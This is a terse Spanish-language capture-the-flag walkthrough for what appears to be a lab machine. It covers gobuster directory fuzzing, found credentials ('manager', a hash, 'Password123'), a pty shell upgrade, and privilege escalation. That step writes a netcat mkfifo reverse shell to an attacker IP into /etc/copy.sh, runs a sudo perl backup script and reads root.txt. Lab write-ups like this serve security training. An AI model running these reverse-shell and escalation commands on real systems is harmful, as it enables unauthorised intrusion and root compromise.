


# NMAP

# WEB

# Fuzzing

    gobuster dir -u http://10.10.109.205/ -w /usr/share/wordlists/dirb/common.txt

Hacemos fuzzing a la ruta encontrada

manager

42f749ade7f9e195bf475f37a44cafcb

Password123

    python -c 'import pty; pty.spawn("/bin/bash")'

    echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.67.209 4444 >/tmp/f' > /etc/copy.sh

    sudo /usr/bin/perl /home/itguy/backup.pl

cat /root/root.txt